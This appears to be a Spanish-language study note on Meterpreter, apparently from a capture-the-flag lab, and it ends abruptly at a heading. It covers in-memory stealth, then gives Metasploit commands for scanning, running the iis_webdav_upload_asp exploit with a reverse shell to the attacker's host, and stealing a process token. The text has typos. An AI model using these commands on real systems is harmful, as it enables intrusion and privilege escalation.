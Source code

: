## Sigilo

Cuando se ejecuta y llega al target, reside dentro de la memoria y no se escribe dentro del disco. Nuevo proceso de creacion entre el meterpreter injecta procesos de compromiso. 

## PODER

Necesita usar un canal de comunicaciones entre los sistemas para que todo funcione correctamente. Lo primero en el momento que spawneamos la shell necesitamos que todo ecriptado tenga el poder de hacer cosas

## EXTENSIBILIDAD

Constanteme necesita que se ejecute aunque la red vaya mal y tenga rebuildear.

## USAR METERPRETER

Ahora que sabemos todo esto, ahora vamos a utilizarlo escaneamos el target
```
db_nmap -sV -p- -T% -A ip
hosts
services
```
Nos metemos en la página y vemos información, encontramos el servicio y buscamos la vulnerabilidad o el exploit
```
searcho iis_webdav_upload_asp
use 0
show options
```

## CONFIGURAR EXPLOIT Y PAYLOAD

```
set RHOST 10.10.10.15
set LHOST tun0
run
```
Una vez que tenemos la shell, encontramos archivos que pueden ver pero resididos en memoria osea que cuidado con eso. 
```
getuid
ps
```
para ver los procesos

```
steal_token 1836
getuid
```
# ESCRIBIR Y IMPORTAR MODULOS
